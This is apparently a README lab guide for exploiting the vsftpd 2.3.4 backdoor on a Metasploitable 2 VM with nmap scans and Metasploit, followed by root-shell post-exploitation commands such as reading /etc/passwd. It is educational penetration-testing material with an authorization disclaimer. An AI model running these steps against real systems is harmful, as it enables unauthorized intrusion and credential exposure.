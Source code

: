 #🚦 Step-by-Step Lab Guide

##🔎 Step 1: Discover Target IP 

First, identify the IP address of your Metasploitable 2 VM.
Run a ping sweep on your subnet (adjust subnet as per your VM network):

```bash
nmap -sn 192.168.56.0/24
```

Sample output:

```
Nmap scan report for 192.168.56.101
Host is up (0.00040s latency).
```
This shows the IP address of your Metasploitable 2 machine (e.g., 192.168.56.101).


##🔍 Step 2: Enumerate Open Ports and Services  
Use a service/version detection scan to enumerate all ports:

```bash
nmap -sV -p- 192.168.56.101
```

Key finding:

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
```

##🧨 Step 3: Exploit the VSFTPD 2.3.4 Backdoor Using Metasploit  
###Launch Metasploit Framework:

```bash
msfconsole
```

###Search for the vsftpd exploit module:

```bash
search vsftpd
```

###Select the appropriate exploit module:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

###Set the remote target IP:

```bash
set RHOSTS 192.168.56.101
```

###Run the exploit:

```bash
run
```

Expected output:

```
[*] Command shell session 1 opened (192.168.x.x:4444 -> 192.168.56.101:6200)
```

##🧾 Step 4: Post-Exploitation  
###List active sessions:

```bash
sessions
```

###Interact with your opened shell session:

```bash
sessions -i 1
```

###Run basic system commands to confirm access:

```bash
whoami
uname -a
cat /etc/passwd
```

Example output:

```
root
Linux metasploitable 2.6.24-16-server ...
```

🧪 Additional Exploration (Optional)  
Try exploiting other vulnerable services in Metasploitable 2:

- Telnet (port 23)  
- Samba (port 139)  
- Apache (port 80)  
- MySQL (port 3306)  

Or add other vulnerable targets:

- DVWA (Damn Vulnerable Web Application)  
- OWASP Juice Shop  
- HackMyVM  

📸 Key Screenshots

| Stage                      | Screenshot                     |
|----------------------------|------------------------------|
| Nmap scan showing FTP service | ![](images/nmap_scan.png)      |
| Metasploit module in use    | ![](images/vsftpd_exploit.png) |
| Shell access achieved       | ![](images/shell_session.png)  |
| Post-exploitation commands  | ![](images/whoami_result.png)  |

How to add screenshots  
Create a folder called images/ in your repository root.  
Upload your screenshots into that folder.  
Embed them using markdown like this:

```markdown
![](images/nmap_scan.png)
```

##⚠️ Legal Disclaimer  
This lab is for educational purposes only.  
Never scan, exploit, or access systems without explicit authorization.  
Always use isolated, local environments like VMs for practicing cybersecurity.

##🙌 Acknowledgments  
Thanks to:

- Offensive Security and Metasploit for their open tooling  
- The creators of Metasploitable 2  
- The cybersecurity community for shared knowledge  

⭐ If This Helped You  
⭐ Star this repo  
📢 Share it with fellow learners  
📝 Fork and improve this guide  

Keep learning and hacking — ethically! 🧑‍💻
